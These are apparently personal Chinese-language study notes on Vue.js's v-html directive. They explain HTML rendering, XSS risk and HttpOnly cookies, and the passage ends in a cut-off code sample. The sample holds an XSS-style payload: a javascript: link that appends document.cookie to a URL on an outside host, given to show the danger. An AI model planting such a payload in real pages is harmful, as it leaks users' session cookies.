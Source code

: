 

### 18.2 v-html

- 某些情况下，从服务器请求的数据本身就是一个HTML代码
  - 如果直接通过{{}}来输出，会将HTML代码也一起输出
  - 但是希望的是按照HTML格式进行解析，并且显示对应的内容
- 与插值语法区别：v-html会替换掉节点中的内容，{{xx}}则不会
- 如果希望解析出HTML展示，可以使用v-html指令
  - 该指令后往往会跟上一个string类型
  - 会将string的html解析并且进行渲染

```html
<div id="app">
    <h2>{{url}}</h2>
    <h2 v-html="url"></h2>
</div>

<script src="../js/vue.js"></script>
<script>
    const app = new Vue({
        el: '#app',
        data: {
            url: '<a href="http://www.baidu.com">百度一下</a>'
        }
    })
</script>

<!-- 第一个会直接按照字符串的形式输出url -->
<!-- 第二个则会将字符串解析为html标签，然后显示一个超链接 -->
```

- 安全性问题：
  - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
  - 一定要在可信的内容上使用v-html，永远不要在用户提交的内容上

![cookie](D:\work\前端\Vue\图片\cookie.png)

- 每次访问服务器，服务器都会给点cookie带回来，然后浏览器会存储在硬盘中，当下次请求发生时，只需要带上cookie，服务器就能识别出身份进行交互
- 通过document.cookie获取当前网站的所有cookie，但是仅限于没有HttpOnly修饰的，被HttpOnly修饰的cookie，是不可被http协议以外的东西查看或者携带

![获取cookie](D:\work\前端\Vue\图片\获取cookie.png)

- 下面的例子：可通过document.cookie获取到当前网站的所有cookie进行跳转，这样信息就会暴露在浏览器的网址上http://www.baidu.com?a=1&b=2，这就很危险了

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>v-html</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h1 v-html="str"></h1>
  </div>

  <script src="../js/vue.js"></script>
  <script>
    const app = new Vue({
      el: '#app',
      data: {
        str: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>百度一下</a>'
      }
    })
~~~